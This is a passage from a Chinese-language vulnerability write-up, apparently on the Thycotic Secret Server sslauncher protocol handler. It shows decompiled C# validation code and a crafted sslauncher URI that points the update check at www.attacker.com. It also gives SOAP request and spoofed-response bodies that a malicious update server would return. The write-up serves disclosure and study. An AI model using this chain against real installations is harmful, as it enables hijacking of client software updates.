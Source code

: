 ```
                {
                    return true;
                }
                return this.DisplayErrorsAndPrompt();
            }
            this._log.Debug("HTTPS validation succeeded without error for " + components);
            return true;
        }
```  
  
  
这可以通过获取 Web 服务器的有效 TLS 证书来满足。之后，将 ssurl 域与存储在以下文件中的先前验证过的域列表进行比较：  
  
```
%APPDATA%\Thycotic\SSUA.dat
```  
  
  
如果无法匹配之前批准的域名之一，则会出现类似下图的提示。我们稍后会讨论如何绕过此检查。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/rWGOWg48tafB0xYPklyy3vJbLgTZccNiarWxBk5sNecYyjqFjY6j0lC2SXZ5yy5WA57e47SYJrcGeXQicm6DKnsQ/640?wx_fmt=webp&from=appmsg "")  
  
图像  
  
接受此提示后将继续检查 sslauncher 值中是否存在布尔 autoUpdateEnabled 参数，例如：  
  
```
sslauncher://aaaa/?ssurl=https://www.attacker.com/aaa/bbb/ccc&autoUpdateEnabled=true
```  
  
  
当设置为 true 时，这会强制代码沿着一条路径通过 GetNextProtocolHandlerVersion 检查软件的更新版本，这会向“ssurl”参数中定义的 URL 发出 SOAP 请求：  
  
```
[SoapDocumentMethod("urn:thesecretserver.com/GetNextProtocolHandlerVersion", RequestNamespace = "urn:thesecretserver.com", ResponseNamespace = "urn:thesecretserver.com", Use = SoapBindingUse.Literal, ParameterStyle = SoapParameterStyle.Wrapped)]
        public string GetNextProtocolHandlerVersion(string existingVersion)        {
            return (string)base.Invoke("GetNextProtocolHandlerVersion", new object[]
            {
                existingVersion
            })[0];
        }
```  
  
  
SOAP 主体如下所示，调用 GetCurrentProtocolHandlerVersion 方法：  
  
```
<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema"><soap:Body><GetCurrentProtocolHandlerVersion xmlns="urn:thesecretserver.com" /></soap:Body></soap:Envelope>
```  
  
  
预期响应包含一个 GetCurrentProtocolHandlerVersionResult 值，该值告知客户端 SSProtocolHandler 软件的最新版本号。  
  
```
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd=" http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/en velope/">
  <soap:Body>
    <GetCurrentProtocolHandlerVersionResponse xmlns="urn:thesecretserver.com">
      <GetCurrentProtocolHandlerVersionResult>9.9</GetCurrentProtocolHandlerVers                                                                                            ionResult>
    </GetCurrentProtocolHandlerVersionResponse>
  </soap:Body>
</soap:Envelope>
```  
  